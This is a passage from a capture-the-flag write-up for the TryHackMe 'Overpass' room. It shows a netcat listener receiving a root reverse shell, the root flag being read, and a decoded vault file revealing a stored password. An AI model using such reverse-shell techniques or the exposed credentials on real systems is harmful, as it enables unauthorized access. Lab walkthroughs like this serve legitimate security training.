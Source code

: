 ```bash
rlwrap nc -lvnp 1111
```

![](/assets/obsidian/0b80f89567fbf88fc27e377fe6e190e4.png)

```bash
┌──(bravosec㉿fsociety)-[~/thm/overpass]
└─$ rlwrap nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.94.240] 40080
bash: cannot set terminal process group (2008): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@overpass-prod:~# cat /root/root.txt
cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

# Additional
---

## Enumerate overpass vault

```bash
james@overpass-prod:~$ cat ./.overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

- Cyberchef

![](/assets/obsidian/fe65f137d9c3125b45abd7d593e20aa0.png)

```json
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

